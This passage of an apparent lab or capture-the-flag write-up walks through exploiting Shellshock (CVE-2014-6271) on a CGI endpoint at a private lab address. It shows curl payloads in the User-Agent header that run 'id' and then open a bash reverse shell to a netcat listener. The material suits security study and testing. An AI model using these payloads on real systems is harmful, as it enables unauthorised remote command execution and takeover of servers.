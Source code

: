 `echo;` prints an empty line.

Purpose: avoid syntax issues on some Bash versions and separate exploit output from the program’s original output.

`echo VUL` prints VUL as proof the payload was executed.

### Let's continue with write-up

Try another test case get id from bash

``` bash
curl -A "() { :;};echo ;/bin/bash -c 'id'" http://192.168.223.129/cgi-bin/underworld
```

![alt text](image-3.png)

This command returned `id` from that server.
Now we will exploit the CVE 2014-6271 through `netcat`

```bash
nc -nvlp 4444
```

Listening from port 4444

Give command to contact with our port 4444 through CVE 2014-6271

```bash
curl -A "() { :;};echo ;/bin/bash -c 'bash -i >& /dev/tcp/192.168.223.128/4444 0>&1'" http://192.168.223.129/cgi-bin/underworld
```
